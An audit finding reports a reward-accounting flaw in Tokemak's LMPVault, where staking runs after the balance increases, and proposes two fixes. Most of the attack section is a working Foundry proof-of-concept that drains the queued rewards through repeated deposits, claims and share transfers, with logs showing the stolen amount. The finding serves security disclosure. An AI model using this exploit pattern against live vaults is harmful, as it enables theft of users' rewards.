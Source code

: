 Wonderful Sage Goldfish

high

# Wrong procedure of minting & staking in lmpVault leads to theft of all rewards
## Summary
LmpVault has '\_beforeTokenTransfer' and '\_afterTokenTransfer' hooks before token transfer withdraws stake and \_afterTokenTransfer does the staking. So abstractRewarder's \_updateReward(account) function is called after the balance of the account has already increased. Which leads to overestimation of rewards in earned() function which relies of balanceOf(account)

## Vulnerability Detail

POC-
1. There are 1000 ethers in a vault, and 10 rewards are queued in block 50.
2. Now in the next block(51) after queuing of rewards alice deposits some xyz amount of ether in it lets say 10 ether(maybe a flashloan)
3. Now lets walkthrough how the deposit transaction traverses through the contracts
	a.\_beforeTokenTransfer does no state changes as from = address(0) while minting
	b. now shares are minted lets say 10* 1e18.
	c.\_afterTokenTransfer calls rewarder.stake(alice,10 ether)
	d. In mainRewarder \_updateReward(alice) is called where
```solidity
        if (account != address(0)) {
            earnedRewards = earned(account);
            rewards[account] = earnedRewards;
            userRewardPerTokenPaid[account] = rewardPerTokenStored;
        }
```
  e. earnedRewards = earned(account) but in earned(account)
```solidity
    function earned(address account) public view returns (uint256) {
        return (balanceOf(account) * (rewardPerToken() - userRewardPerTokenPaid[account]) / 1e18) + rewards[account];
    }
``` 
  f. ^ here balanceOf(account)  = 10ether, userRewardPerTokenPaid\[alice] = 0 <                  rewardPerToken().  Making the earned(alice) != 0. But it should be 0 as alice has just staked and not even a single block has passed.

4. Weaponising this alice creates a malicious contract which does the following 
	a. take a loan in the callback deposit in vault, call getRewards() then call withdraw.
	b. now send the withdrawn amount to a new babyContract which does the same steps in step (a). Do this in a for loop and get all the rewards transferred over to her account by babyContracts and repay the loan. 

Attaching a working poc, add it to LMPVault-Withdraw.t.sol file under the LMPVaultMintingTests contract.

```solidity
function test_stealing_rewards() public {
    uint256 rewardAmt = 10 ether;
    uint256 otherDeposits = 1000 ether;
    _asset.mint(address(this), otherDeposits);
    _asset.approve(address(_lmpVault), otherDeposits);
    assertEq(_lmpVault.balanceOf(address(this)), 0);
    assertEq(_lmpVault.rewarder().balanceOf(address(this)), 0);
    _lmpVault.deposit(otherDeposits, address(this));
    // queuing rewards

    _accessController.grantRole(Roles.DV_REWARD_MANAGER_ROLE, address(this));
    _lmpVault.rewarder().addToWhitelist(address(this));
    _toke.mint(address(this), rewardAmt);
    _toke.approve(address(_lmpVault.rewarder()), rewardAmt);
    _lmpVault.rewarder().queueNewRewards(rewardAmt);

    // roooolllingnggn;

    vm.roll(block.number + 1);
    // genrealizing it
    // instead of seed, on mainnet, attacker will deploy new contracts
    // and conduct the attack through them
    uint160 seed = 1000;
    address aliceSeed = address(seed);
    //taking a reasonable loan,to avoid hitting deposit limits(if applicable)
    _asset.mint(aliceSeed, 10 ether);
    vm.startPrank(aliceSeed);
    _asset.approve(address(_lmpVault), 10 ether);
    uint256 shareBal = _lmpVault.deposit(10 ether, aliceSeed);
    vm.stopPrank();
    assertGt(_lmpVault.rewarder().earned(aliceSeed), 0); ///@audit alice just staked, her earned should be 0
    // but it is > 0 so alice can get her rewards instantly
    // weaponizing this she stakes and collects her rewards instantly in the same tx
    // and she does that via multiple accounts
    while (_toke.balanceOf(address(_lmpVault.rewarder())) > 0.01 ether) {
        address _aliceSeed = address(seed);
        address aliceNext = address(seed + 1);
        vm.startPrank(_aliceSeed);
        _lmpVault.rewarder().getReward();
        _lmpVault.transfer(aliceNext, _lmpVault.balanceOf(_aliceSeed));
        _toke.transfer(aliceSeed, _toke.balanceOf(_aliceSeed));
        vm.stopPrank();
        seed++;
    }

    vm.startPrank(address(seed));
    _lmpVault.withdraw(10 ether, aliceSeed, address(seed));
    vm.stopPrank();

    // repaying the loan (burnign)

    vm.startPrank(aliceSeed);
    _asset.burn(aliceSeed, 10 ether);
    vm.stopPrank();

    // alice will have most of the reward
    // alice's profit

    uint256 aliceSeedBal = _toke.balanceOf(aliceSeed);
    emit log_named_decimal_uint("alice Balance of Toke", aliceSeedBal, 18);
}
```
run it using 
```solidity
forge test --match-path ./test/vault/LMPVault-Withdraw.t.sol --match-test test_stealing_rewards -vv
```

Logs:
  alice Balance of Toke: 9.990099009900989100
  
## Impact
Theft of rewards

## Code Snippet
[tokenTransferHooks](https://github.com/sherlock-audit/2023-06-tokemak/blob/5d8e902ce33981a6506b1b5fb979a084602c6c9a/v2-core-audit-2023-07-14/src/vault/LMPVault.sol#L834-L865)

[mainRewarder's stake function](https://github.com/sherlock-audit/2023-06-tokemak/blob/5d8e902ce33981a6506b1b5fb979a084602c6c9a/v2-core-audit-2023-07-14/src/rewarders/MainRewarder.sol#L86-L93)

[\_updateReward](https://github.com/sherlock-audit/2023-06-tokemak/blob/5d8e902ce33981a6506b1b5fb979a084602c6c9a/v2-core-audit-2023-07-14/src/rewarders/AbstractRewarder.sol#L128-L140)

[earned](https://github.com/sherlock-audit/2023-06-tokemak/blob/5d8e902ce33981a6506b1b5fb979a084602c6c9a/v2-core-audit-2023-07-14/src/rewarders/AbstractRewarder.sol#L204-L206)
## Tool used

Manual Review

## Recommendation
The rewarders are inspired from synthetix, synthetix rewarder is immune to this bug because it has an internal \_balance mapping & a totalSupply variable.There could be 2 potential fixes-
1. While minting new shares in lmpVault, call mainRewarder.stake() in \_beforeTokenTransfer hook (a quick fix)
2. Implement a \_balance array like synthetix the rewarder will still need not hold funds but just keep track of balances in its own mapping instead of querying from lmpVault and reaching a vulnerable state.(a more robust but costly fix)